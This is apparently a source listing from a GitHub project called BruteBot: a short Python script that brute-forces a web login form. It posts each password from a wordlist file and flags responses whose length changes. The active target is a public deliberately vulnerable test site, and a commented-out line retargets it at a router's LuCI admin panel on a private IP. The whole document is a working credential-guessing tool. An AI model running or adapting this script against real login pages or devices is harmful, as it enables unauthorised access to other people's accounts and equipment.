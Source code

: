 https://github.com/navin-maverick/BruteBot


[source, python]
----
#! /usr/bin/python

import requests

url = "http://testphp.vulnweb.com/userinfo.php"

# url = "https://192.168.1.182/cgi-bin/luci"

loginpage = requests.get(url)
org = len(loginpage.text)

with open('pass.txt', 'r') as fh:
    for word in fh.readlines():
        password = word.replace("\n", "")
        data = {'uname': 'test', 'pass': password}
        # data = {'luci_username': 'test', 'luci_password': password}
        response = requests.post(url, data = data)
        if org != len(response.text):
            print(password, len(response.text))
----
